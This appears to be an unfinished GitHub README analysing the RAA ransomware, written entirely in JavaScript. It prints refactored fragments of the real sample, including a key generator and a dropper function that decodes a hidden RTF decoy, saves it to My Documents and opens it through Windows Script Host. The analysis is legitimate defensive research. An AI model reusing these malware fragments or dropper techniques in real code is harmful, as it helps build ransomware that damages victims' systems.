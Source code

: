 # RAA Ransomware JavaScript code analysis

On 14th of June 2016 I found an information about new ransomware called RAA Ransomware. Couple of websites mentioned about it as first ransomware created only by using JavaScript.

Following some links provided by Polish malware analyst **@hasherezade** (https://github.com/hasherezade, https://twitter.com/hasherezade) I've downloaded RAA JavaScript source code from malwr.com (https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/) to take a look its internals.

File **raa.js** contains original content of RAA downloaded from malwr.com, and other files contains source code with some refactoring which I've done during RAA analysis and test runs.


# Analysis

## Extracting parts of code into separate files

**raa.js** file contains 3rd party library, used for some encoding purposes. It's **CryptoJS** library (source code available here https://code.google.com/archive/p/crypto-js/ or GitHub fork here https://github.com/sytelus/CryptoJS).

To keep source code easier to analysis, I've decided to divide **raa.js** into couple of smaller parts. After quick investigation I was able to spot three main parts.

Folder **partials/** contains those parts of code (I keep order of how those fragments exists in original file). Please be aware that I've done a lot of renaming, mostly in **raa_other.js**. Original, obfuscated names you can find in **raa.js**.

- **Crypto.js** contains CryptoJS library
- **raa_other.js** contains other functions, including **zQqUzoSxLQ()**, which seems to be an entry point for the program
- **NWvQtGjjfQX.js** contains only body of function _NWvQtGjjfQX()_, which is quite huge :)


## How RAA JavaScript works

First executable line of script is this assingment:

```javascript
var TBucypWw = YUIMqkFkI();
```

I renamed all found variables and function into something what makes sense and allows to follow them in code in some easy way. This is how previous line and a function just before it looks like after renaming (I just guessed the role of each variable and function to choose particular name):

```javascript
function generateKey() {
    var returnedKey = "";
    var allowedChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for (var i = 0; i < 5; i++)
        returnedKey += allowedChars.charAt(Math.floor(Math.random() * allowedChars.length));
    return returnedKey;
}

// var TBucypWw = YUIMqkFkI();
var __key = generateKey();  // <-- returns xW5Gf
```

This fragment just generates a string which contains five characters. In this writeup, to understand its meaning, how and where it's used, I assigned *xW5Gf* from example above as generated value of **__key** variable.

Next executable fragment is:

```javascript
// starts from:
//
// var Yvwtdbvd = WScript.Arguments;
// (...)


var __arguments = WScript.Arguments;


if (__arguments.length == 0) {
    runShell();
    runRansomware();
} else {
    null;
}

```
And here's RAA starts its work. After script checks if there are any arguments passed (now let's assume that there aren't any) **runShell()** (nYuMHHRx()) is executed. Original name of this function is **nYuMHHRx()**, below is my refactored version.

```javascript

function runShell() {
    var b64EncodedString = "e1xydGYxXG..( very long Base64 encoded string )..zIwXHBhcg0KfQ0KBBSDIOBBSDIO==";
    b64EncodedString = b64EncodedString.replace(/BBSDIO/g, "A");
    var clear_b64EncodedString = CryptoJS.enc.Base64.parse(b64EncodedString);
    var clearedString = clear_b64EncodedString.toString(CryptoJS.enc.Utf8);
    clearedString = clearedString.replace(/BBSDIO/g, "A");
    var AdodbStreamObj = new ActiveXObject('ADODB.Stream');
    var WScriptShellObj = WScript.CreateObject("WScript.shell");
    var _saveFolder = WScriptShellObj.SpecialFolders("MyDocuments");
    _saveFolder = _saveFolder + "\\" + "doc_attached_" + __key;
    AdodbStreamObj.Type = 2;
    AdodbStreamObj.Charset = "437";
    AdodbStreamObj.Open();
    AdodbStreamObj.WriteText(clearedString);
    AdodbStreamObj.SaveToFile(_saveFolder);
    AdodbStreamObj.Close();
    var run = "wordpad.exe " + "\"" + _saveFolder + "\"";
    WScriptShellObj.Run(run);
    return 0;
}

```

Let's go through it step by step.

_b64EncodedString_ variable contains very long Base64 encoded string. After a couple of operations with Regular Expressions and CryptoJS methods calls - finally we get RTF document (see **extracted/extracted_rtf.rtf** file)

Next, a file is created with following path:

```
\MyDocuments\doc_atatched_xW5Gf
```

Content of previously generated RTF file is then saved at this path.

Finally, following command is prepared:

```
var run = wordpad.exe "\MyDocuments\doc_atatched_xW5Gf"
```

and executed by Windows Script Host using method Run():

```
WScriptShellObj.Run(run);
```
( reference: https://msdn.microsoft.com/en-us/library/d5fk67ky(v=vs.84).aspx )


-- TBD --



## Links, references

**News about RAA from BleepingComputer website**

http://www.bleepingcomputer.com/news/security/the-new-raa-ransomware-is-created-entirely-using-javascript/

**malwr.com**

https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/


**SophosLabs blog**			
https://nakedsecurity.sophos.com/2016/06/20/ransomware-thats-100-pure-javascript-no-download-required/